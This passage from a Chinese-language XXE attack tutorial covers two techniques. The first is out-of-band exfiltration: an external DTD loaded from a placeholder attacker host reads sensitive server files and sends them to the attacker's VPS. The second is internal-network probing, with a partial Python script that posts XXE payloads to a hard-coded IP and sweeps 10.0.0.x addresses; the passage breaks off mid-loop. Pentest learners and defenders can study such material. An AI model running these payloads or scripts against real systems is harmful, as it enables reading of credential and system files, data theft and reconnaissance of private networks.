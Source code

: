 - %remote 先调用，调用后请求远程服务器上的 test.dtd ，有点类似于将 test.dtd 包含进来
- 然后 %int 调用 test.dtd 中的 %file, %file 就会去获取服务器上面的敏感文件，然后将 %file 的结果填入到 %send 以后(因为实体的值中不能有 %, 所以将其转成html实体编码 %)
- 再调用 %send; 把我们的读取到的数据发送到我们的远程 vps 上

```javascript
<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://ip/test.dtd">
%remote;%int;%send;
]>

```

复制

![](https://ask.qcloudimg.com/http-save/yehe-8581257/311933150c46bf702bdff45bcbdd16a2.png)

![](https://ask.qcloudimg.com/http-save/yehe-8581257/ffae731dd92c1675acd09c1a16b917fa.png)

在各个平台能用的协议

![](https://ask.qcloudimg.com/http-save/yehe-8581257/0666158cbca71fe714dd32dbdaa0c4df.png)

其中PHP在安装扩展后还能支持以下这些协议

![](https://ask.qcloudimg.com/http-save/yehe-8581257/f6f71e13b16483189852c5b6056e1969.png)

##### （3）HTTP 内网主机探测

以存在 XXE 漏洞的服务器为我们探测内网的支点

准备工作

- 先利用 file 协议读取我们作为支点服务器的网络配置文件，看一下有没有内网，以及网段大概是什么样子
- 可以尝试读取 /etc/network/interfaces 或者 /proc/net/arp 或者 /etc/host 文件

一个脚本

```javascript
import requests
import base64

#Origtional XML that the server accepts
#<xml>
#    <stuff>user</stuff>
#</xml>


def build_xml(string):
    xml = """<?xml version="1.0" encoding="ISO-8859-1"?>"""
    xml = xml + "\r\n" + """<!DOCTYPE foo [ <!ELEMENT foo ANY >"""
    xml = xml + "\r\n" + """<!ENTITY xxe SYSTEM """ + '"' + string + '"' + """>]>"""
    xml = xml + "\r\n" + """<xml>"""
    xml = xml + "\r\n" + """    <stuff>&xxe;</stuff>"""
    xml = xml + "\r\n" + """</xml>"""
    send_xml(xml)

def send_xml(xml):
    headers = {'Content-Type': 'application/xml'}
    x = requests.post('http://34.200.157.128/CUSTOM/NEW_XEE.php', data=xml, headers=headers, timeout=5).text
    coded_string = x.split(' ')[-2] # a little split to get only the base64 encoded value
    print coded_string
#   print base64.b64decode(coded_string)
for i in range(1, 255):
    try:
        i = str(i)
        ip = '10.0.0.' + i
```